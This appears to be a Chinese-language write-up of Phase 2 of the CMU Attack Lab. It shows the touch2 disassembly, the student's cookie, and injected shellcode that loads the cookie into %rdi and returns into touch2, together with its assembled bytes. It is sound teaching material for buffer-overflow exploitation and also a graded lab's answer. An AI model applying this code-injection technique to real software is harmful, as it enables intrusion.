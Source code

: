 说明文档中给出的建议如下：

> * You will want to position a byte representation of the address of your injected code in such a way that ret instruction at the end of the code for getbuf will transfer control to it. 
>
> * Recall that the first argument to a function is passed in register %rdi. 
> * Your injected code should set the register to your cookie, and then use a ret instruction to transfer control to the first instruction in touch2.

函数touch2的汇编代码如下：

```assembly
(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	sub    $0x8,%rsp
   0x00000000004017f0 <+4>:	mov    %edi,%edx
   0x00000000004017f2 <+6>:	movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:	mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:	mov    $0x1,%edi
   0x000000000040180e <+34>:	mov    $0x0,%eax
   0x0000000000401813 <+39>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:	mov    $0x2,%edi
   0x000000000040181d <+49>:	call   0x401c8d <validate>
   0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:	mov    $0x403110,%esi
   0x0000000000401829 <+61>:	mov    $0x1,%edi
   0x000000000040182e <+66>:	mov    $0x0,%eax
   0x0000000000401833 <+71>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:	mov    $0x2,%edi
   0x000000000040183d <+81>:	call   0x401d4f <fail>
   0x0000000000401842 <+86>:	mov    $0x0,%edi
   0x0000000000401847 <+91>:	call   0x400e40 <exit@plt>
End of assembler dump.
```

与函数touch1相比，touch2多了一个参数val，并且其值必须等于cookie。cookie的值为：

```shell
[hegongshan@hgs attacklab-handout]$ cat cookie.txt 
0x59b997fa
```

因此，可以写出如下的汇编代码：

```assembly
mov $0x59b997fa,%rdi # cookie值作为入参，存入寄存器%rdi中
push $0x4017ec       # 将函数touch2第一条指令的地址压入栈中
ret                  # 将控制传递给函数touch2
```

接着，将上述汇编代码转换为机器代码：

```shell
[hegongshan@hgs solutions]$ gcc -c phase2.s 
[hegongshan@hgs solutions]$ objdump -d phase2.o

phase2.o:	file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
       0:	48 c7 c7 fa 97 b9 59 	mov	$0x59b997fa, %rdi
       7:	68 ec 17 40 00 	pushq	$0x4017ec
       c:	c3 	retq
```
